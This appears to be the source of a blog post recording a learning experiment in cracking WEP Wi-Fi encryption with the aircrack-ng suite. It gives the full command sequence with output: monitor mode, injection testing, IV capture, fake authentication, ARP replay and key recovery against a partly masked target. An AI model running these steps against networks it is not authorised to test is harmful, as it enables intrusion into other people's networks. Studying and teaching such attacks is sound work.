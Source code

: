 WEP cracking experiment on Ubuntu 12.10
=======================================

.. |02_1| image:: 02_1-e1357703106181.png
   :width: 450px
.. |04_2| image:: 04_2.png
   :width: 450px
.. |01| image:: 01-e1357703129846.png
   :width: 450px

.. highlight:: shell-session

This experiment follows the online basic tutorials at http://www.aircrack-ng.org/ and is done in terms of learning.

1. Download and install `Aircrack-ng suite <http://www.aircrack-ng.org/>`_::

       $ sudo apt-get install aircrack-ng

2. Start the wireless card in monitor mode, discover Access Points (AP) and determine a proper target AP::

       $ iwconfig
       wlan0     IEEE 802.11bgn  ESSID:off/any
                 Mode:Managed  Access Point: Not-Associated   Tx-Power=16 dBm
                 Retry  long limit:7   RTS thr:off   Fragment thr:off
                 Power Management:off
        
       lo        no wireless extensions.
 
       eth0      no wireless extensions.
 
       $ sudo airmon-ng start wlan0
       Interface   Chipset     Driver
        
       wlan0       Atheros     ath9k - [phy0]
                       (monitor mode enabled on mon0)
 
       $ sudo airodump-ng mon0
 
   |02_1|

   The screenshot above shows the APs on different channels. Choose a WEP target.

3. Start the wireless interface with the same channel to the target AP.

   Assume our target AP has ESSID "TARGET-NET" and BSSID (MAC address) "C0:3F:0E:D3:XX:XX" on channel 11.

   ::

       $ sudo airmon-ng stop wlan0
       $ sudo airmon-ng stop mon0
       $ sudo airmon-ng start wlan0 11
       Interface   Chipset     Driver
        
       wlan0       Atheros     ath9k - [phy0]
                       (monitor mode enabled on mon0)

4. Test packet injection on the target AP.

   ::

       $ sudo aireplay-ng -9 -e TARGET-NET -a C0:3F:0E:D3:XX:XX mon0
       20:38:56  Waiting for beacon frame (BSSID: C0:3F:0E:D3:XX:XX) on channel 11
       20:38:56  Trying broadcast probe requests...
       20:38:56  Injection is working!
       20:38:58  Found 1 AP
        
       20:38:58  Trying directed probe requests...
       20:38:58  C0:3F:0E:D3:XX:XX - channel: 11 - 'TARGET-NET'
       20:39:00  Ping (min/avg/max): 1.664ms/6.917ms/39.315ms Power: -78.96
       20:39:00  23/30:  76%

.. more::

5. Capture initialization vectors (IVs).

   ::

       $ sudo airodump-ng -c 11 --bssid C0:3F:0E:D3:XX:XX -w c mon0

   |04_2|

6. Fake authentication with the target AP.

   Assume our card MAC address is "64:D5:43:80:XX:XX".
   
   Open a new terminal and run the following command.
   
   ::

       $ sudo aireplay-ng -1 0 -e TARGET-NET -a C0:3F:0E:D3:XX:XX -h 64:D5:43:80:XX:XX mon0
       20:46:23  Waiting for beacon frame (BSSID: C0:3F:0E:D3:XX:XX) on channel 11
        
       20:46:23  Sending Authentication Request (Open System) [ACK]
       20:46:23  Authentication successful
       20:46:23  Sending Association Request
        
       20:46:28  Sending Authentication Request (Open System) [ACK]
       20:46:28  Authentication successful
       20:46:28  Sending Association Request [ACK]
       20:46:28  Association successful : -) (AID: 1)

7. Start ARP request replay mode to speed up the collecting of IVs

   Open another terminal and run the following command.

   ::

       $ sudo aireplay-ng -3 -b C0:3F:0E:D3:XX:XX -h 64:D5:43:80:XX:XX mon0
       Saving ARP requests in replay_arp-0108-214535.cap
       You should also start airodump-ng to capture replies.
       Read 336429 packets (got 138673 ARP requests and 15355 ACKs), sent 177878 packet

   After that, the "#DATA" column in the terminal capturing IVs (in Step 5) can be seen incrementing faster.

8. Obtain the WEP key using aircrack-ng.

   ::

       $ sudo aircrack-ng -b C0:3F:0E:D3:XX:XX c*.cap

   |01|

   With 23K IVs, the WEP key is calculated in less than 20 seconds.

.. author:: default
.. categories:: none
.. tags:: Ubuntu,Linux,Hacking
.. comments::
